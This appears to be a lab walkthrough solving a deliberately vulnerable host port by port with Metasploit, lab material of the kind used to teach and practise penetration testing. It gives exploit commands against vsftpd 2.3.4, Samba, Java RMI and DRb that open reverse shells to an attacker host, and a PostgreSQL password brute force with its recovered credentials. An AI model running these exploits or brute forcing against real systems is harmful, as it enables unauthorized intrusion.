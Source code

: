 Port 21 vsftpd

<details>
<summary>Solution</summary>

```markdown
search vsftpd
```



The output of the search is: 



```markdown
Matching Modules

================

Name                                  Disclosure Date  Rank    Description

----                                  ---------------  ----    -----------

exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Now to the exploitation:

```markdown
use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 10.0.0.3

set payload cmd/unix/interact

exploit

```

To verify if the exploit worked use 
```markdown
whoami
```
</details>

Port 445 samba

<details>
<summary>Solution</summary>

```markdown
use auxiliary/scanner/smb/smb_version

set RHOSTS 10.0.0.3

run
```

With the information we now have we can use:

```markdown
use exploit/multi/samba/usermap_script

set RHOSTS 10.0.0.3

set payload cmd/unix/reverse

set LHOST 10.0.0.2

set RPORT 445

exploit
```

To verify our access: 

```markdown
whoami
```

</details>

Port 1099 java-RMI

<details>
<summary>Solution</summary>

```markdown
use exploit/multi/misc/java_rmi_server

set RHOST 10.0.0.3

set payload java/meterpreter/reverse_tcp

set LHOST 10.0.0.2

exploit
```

To verify:
```markdown
getuid
```

</details>

Port 5432 PostgreSQL

<details>
<summary>Solution</summary>

First we brute force the password:

```markdown
use auxiliary/scanner/postgres/postgres_login

set RHOSTS 10.0.0.3

set STOP_ON_SUCCESS true

run
```

The result of the brute force attack:


```markdown
Success: postgres:postgres (Database 'template1' succeeded.)
```
</details>

Port 8787 drb

<details>
<summary>Solution</summary>

```markdown
use exploit/linux/misc/drb_remote_codeexec

set URI druby://10.0.0.3:8787

set payload cmd/unix/reverse

set LHOST 10.0.0.2

exploit
```


To verify our access: 

```markdown
whoami
```

</details>
